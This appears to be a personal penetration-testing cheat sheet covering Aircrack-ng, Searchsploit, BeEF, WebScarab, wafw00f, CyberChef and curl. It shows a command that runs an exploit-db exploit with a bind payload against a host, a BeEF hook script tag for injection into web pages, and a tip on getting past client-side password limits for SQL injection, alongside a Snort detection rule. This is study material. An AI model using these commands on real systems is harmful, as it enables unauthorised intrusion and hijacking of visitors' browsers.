 ## Aircrack-NG

From .pcap file holding wireless transmission data

`aircrack-ng file.pcap`

wireshark can use cracked passcodes to decrypt rest of traffic

## recon-ng

OSSINT tool for CLI

## Searchsploit

offline database of exploit-db

`searchsploit -u` sync to grab latest repo

`searchsploit ftp remote` search for "ftp" **and** "remote" listed in an exploit's title and path

`searchsploit -t ftp remote` search title only

*hint* `searchsploit -t windows | wc -l` count number of returned exploits

`--exclude="name1|name2"` exlude from results

`-w` return URLs of webpage associated with exploit

Read the initial portion of the exploit scripts to understand how to use them

`exploits/windows/remote/43993.py`

`python exploits/windows/remote/43993.py payload=bind rhost=192.168.0.2 rport=1234`

## BeEF - zombie attack on web browsers

`sudo beef-xss`

Javascript entry

`<script src=”http://127.0.0.1:3000/hook.js” type=”text/javascript”></script>`

placed on web page, within the headers section

login to BeEf frontend

`localhost:3000`

- user: beef
- password: ?

Mitigation

browser extensions, like Vegan, detect BeEF hooks and block offending domains

snort rules, looking for cookie identifyers

`alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (flow:to_server,established; content:"Cookie|3a 20|BEEFSESSION=";)`

## Tamper Data

This tool allows to modify/view POST data before it is sent, runs as a browser extension

- Can view Basic Authentication


## WebScarab

Setup a proxy that will take all POST sends, allows to view/modify the POST prior to forwarding to final destination

- FoxyProxy

When client-side security is being employed, this allows to insert forbidden content, outside controls of webcode

Webcode limits password to be less than 8 characters to limit SQLi, webscarab allows to adjust password length at will




## Wafw00f - Web Application Firewall Detection

`wafw00f -a www.example.com`

`-a` aggressive scan

`-v -vv -vvvvv` verbose output


## CyberChef Decoding/Encoding

`gchq.github.io/CyberChef/`

CyberChef decoding

Used to encode phrases, using very common encoding methods
-encoding methods can be strung together to add complexity

Many items are encoded with base64 for robust, simple encoding
- some cookies
- basic authentication

## cURL

`curl example.com` fetch html for a website

`-I` view response headers only

`-v` view request/response text

`--request POST` set request type



## Other firefox addons

- Edit cookies
- Selenium IDE
- View Source Chart
